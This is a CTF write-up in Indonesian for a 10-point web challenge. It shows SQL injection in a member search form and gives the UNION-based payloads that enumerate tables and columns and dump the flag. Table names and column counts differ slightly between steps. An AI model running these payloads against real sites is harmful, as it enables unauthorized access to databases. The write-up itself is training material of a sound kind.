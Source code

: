 # Davinci CTF

## Members

## Informasi Soal
| Kategori | Poin |
| -------- | ---- |
| Website | 10 |

### Deskripsi
> Can you get more information about the members?
>
>http://challs.dvc.tf:1337/members

## Cara Penyelesaian
Dari soal tersebut, saat dibuka menampilkan halaman website menu pencarian maka selanjutnya dicoba untuk menambahkan query SQL Injection pada form pencarian.
```
"or""="
```
Sehingga menampilkan hasil yang sama dari sebelumnya, yaitu semua data dari member.
![image](Images/2_testsql.PNG)

Dari hal tersebut dapat kita asumsikan bahwa website tersebut rentan terhadap SQL Injection pada form search nya. Selanjutnya dilakukan Union Attack dengan menggunakan query sebagai berikut.
```
" and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database() -- -
```
Maka didapatkan hasil sebagai berikut.
![image](Images/3_getdb.PNG)
Dimana didalam hasil tersebut terdapat 2 tabel yaitu ```members``` dan ```supra_secret_table``` yang mana selanjutnya dilakukan dump pada tabel ```supra_secret_table``` dengan menggunakan payload sebagai berikut.
```
" and 1=2 union select group_concat(column_name),3,4 from information_schema.columns where table_schema = database() and table_name = "supa_secret_table" -- -
```
Didapatkan hasil yaitu terdapat dua kolom id dan flag.
![image](Images/3_getcolumn.PNG)
Kemudian dari kolom tersebut kita lihat isinya dengan menggunakan query sebagai berikut.
```
" and 1=2 union select group_concat(id,flag),3,4 from supa_secret_table -- - -- -
```
Dan didapatkan flag dari soal.
![image](Images/4_flag.PNG)
## Flag

> dvCTF{1_h0p3_u_d1dnt_us3_sqlm4p}